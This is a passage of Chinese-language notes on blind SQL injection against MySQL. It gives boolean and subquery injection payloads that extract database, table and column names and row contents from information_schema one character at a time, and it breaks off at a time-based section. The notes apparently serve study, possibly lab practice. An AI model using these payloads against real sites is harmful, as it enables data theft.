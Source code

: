 #### 布尔盲注
常用函数
- char() 解ASCII码
- mid()截取字符串
- substr()截取字符串
- count()计算查询结果的行数
- concat()查询结果合并但保持原有行数
- group_concat()查询结果合并但都放在一行中
- ascii() 查询ascii码
- left() 左边第一个字符
- right() 右边第一个字符
```
# 猜数据库长度
id=1 and (length(database()))>1
id=1 and (length(database()))>50
# 猜第一个字符
and ascii(mid(database(),1,1))>1
# 查询当前数据库所有表数目
and (select count(table_name)from information_schema.tables where table_schema=database())>1
# 查询第一个表的长度
and (select length(table_name)from information_schema.tables where table_schema=database()limit 0,1)>10
# 查表的第一个字符
and ascii(mid((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))>1
# 查某个表有几个字段
and(select count(column_name)from information_schema.columns where table_name = 'xxx' and table_schema = database())>2
# 查第一个字段长度
and length((select column_name from information_schema.columns where table_name='xxx' and table_schema= database()limit 0,1))>1
# 查字段的第一个字符
and ascii(mid((select column_name from information_schema.columns where table_schema = 'db83231_asfaa' and TABLE_NAME ='xxx' limit 0,1),1,1))>105
# 查字段行数
and (select count(*) from db83231_asfaa.atelier)>4
# 查字段内容
length((select username from security.users limit 0,1))>10
ascii(mid((select username from security.user limit 0,1),1,1))>100
```
#### 子查询注入（布尔盲注）

```
通过if语句嵌套子查询进行判断
子查询格式：select * from users where id=(select username from users);
?id=if(1=1,1,(select table_name from information_schema.tables))
?id=if(1=2,1,(select table_name from information_schema.tables))
```
![1.png](https://i.loli.net/2020/03/12/iEx16QYvFAZblSK.png)

#### 延时盲注
